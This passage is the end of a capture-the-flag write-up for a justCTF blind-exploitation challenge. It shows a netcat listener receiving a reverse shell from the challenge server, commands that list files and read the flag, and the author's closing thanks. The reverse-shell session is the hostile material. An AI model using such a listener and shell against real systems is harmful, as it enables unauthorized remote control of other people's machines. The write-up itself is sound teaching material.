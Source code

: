 Since we set `envp` to NULL, the shell does not have any environment variables (so no `PATH`). We can either `export PATH=/bin` or just use absolute paths to `ls` and `cat`.
```
$ nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 127.0.0.1 42784
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
bash-4.4$ /bin/ls
bin
default.script
dev
etc
flag.txt
lib
linuxrc
nix
proc
sbin
share
sys
tmp
var
bash-4.4$ /bin/cat flag.txt
justCTF{n0_n33d_4_p455w0rd_wh3n_h4ckin9_b1ind_th3_wh0l3_s3rv3r_c0ngr4t5!}
bash-4.4$
```

# Final Thoughts
I have not helped solve a challenge more tedious yet rewarding than this one in a long time. Especially considering the large amount of brute force required (as well as the number of teams who each had an isolated environment), I am amazed at how resilient the challenge servers were. Huge thanks to the author of this challenge!

I'm also really thankful for kmh for doing all the hard work and letting me tag along too 🙂

The author's own [blog post](https://arturcygan.com/posts/2021-01-31-hacking-blind-in-2021.html) may also be worth reading.

